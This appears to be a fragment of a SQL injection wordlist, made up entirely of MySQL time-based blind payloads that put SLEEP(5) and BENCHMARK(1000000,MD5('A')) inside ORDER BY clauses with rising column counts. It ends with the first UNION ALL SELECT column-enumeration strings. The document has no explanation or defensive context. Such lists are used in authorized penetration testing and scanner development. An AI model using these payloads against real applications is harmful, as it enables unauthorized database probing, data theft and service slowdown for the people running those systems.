       ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
      ORDER BY SLEEP(5)-- 
      ORDER BY 1,SLEEP(5)-- 
      ORDER BY 1,SLEEP(5),3-- 
      ORDER BY 1,SLEEP(5),3,4-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
      UNION ALL SELECT 1
      UNION ALL SELECT 1,2